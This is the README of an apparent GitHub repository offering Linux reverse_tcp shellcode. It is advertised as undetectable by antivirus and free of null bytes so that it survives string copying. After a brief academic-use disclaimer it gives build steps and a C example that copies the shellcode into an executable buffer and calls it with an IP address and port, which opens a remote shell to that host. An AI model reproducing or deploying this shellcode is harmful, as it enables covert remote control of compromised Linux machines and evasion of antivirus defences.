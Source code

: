 # Reverse_tcp-Shellcode-Linux
Best reverse_tcp shellcode for linux on github, undetectable, garanty no nullbytes.

## /!\ Disclaimer /!\

This repository is for academic purposes, the use of this software is your responsibility.  
Its forbidden to use it in any illegal ways  

## Overview

This is a reverse_tcp shellcode that you can use in C.  
Its garanty no nullbytes, you can safely strlen, strcpy on it.  
Can't be detected by AVs.  
You'll need execstack to build it, to make the stack executable.  
  
### Build
Take a look at build.sh  
```sh
    $ ./build.sh
```

### Example

```c
    #include "shellcode.h"

    int main(void)
    {
        unsigned char reverse_tcp[sizeof(shellcode)];

        memcpy(reverse_tcp, shellcode, sizeof(shellcode));

        void (*funcptr)(unsigned int, unsigned short) = (void (*)(unsigned int,  short unsigned int))reverse_tcp;

        funcptr(inet_addr("127.0.0.1"), htons(2626));
    }
```
